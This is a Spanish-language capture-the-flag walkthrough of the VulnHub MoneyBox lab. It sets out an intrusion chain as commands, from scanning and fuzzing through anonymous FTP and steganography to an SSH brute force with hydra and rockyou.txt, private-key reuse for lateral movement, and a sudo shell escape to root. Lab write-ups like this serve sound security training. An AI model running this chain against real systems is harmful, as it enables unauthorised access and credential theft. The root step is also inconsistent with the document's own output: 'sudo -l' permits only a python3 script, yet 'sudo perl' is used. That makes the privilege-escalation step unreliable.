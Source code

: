 ```yaml
---
Title: "MoneyBox — Walkthrough"
Author: "Pxlymxrph"
Level: "Easy"
Target: "VulnHub - MoneyBox"
url: "https://www.vulnhub.com/entry/moneybox-1,653/"
Date: 2025-09-23
Tags: [ctf, vulnhub, linux, ssh, privesc, steganography, enum]
---
```


# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `curl -I http://192.168.1.78` (confirma Linux). (Evidencia: `1.png`)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  
(Evidencia: `1.2.png`, `2.png`)

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```

Página estática con mensaje de “hacked”. Primer vistazo sin info útil. (Evidencia: `3.png`)

## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/wordlists/dirb/common.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta. (Evidencia: `4.png`, `5.png`)

## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista. (Evidencia: `6.png`)

## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```

(Evidencia: `7.png`)

## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**. (Evidencia: `9.1.png`)

## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida. (Evidencia: `10.png`)

> Nota: fuerza bruta sólo en entornos autorizados/CTF.

## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
cat /etc/passwd | grep "/bin/bash"
```

(Evidencia: `11.png`, `12.png`)

## 10) Movimiento lateral hacia `lily`
En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag. (Evidencia: `22.png`, `13.png`, `15.png`)

## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```

Consigo shell root y la flag final. (Evidencia: `17.png`, `16.png`, `18.png`)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/wordlists/dirb/common.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.

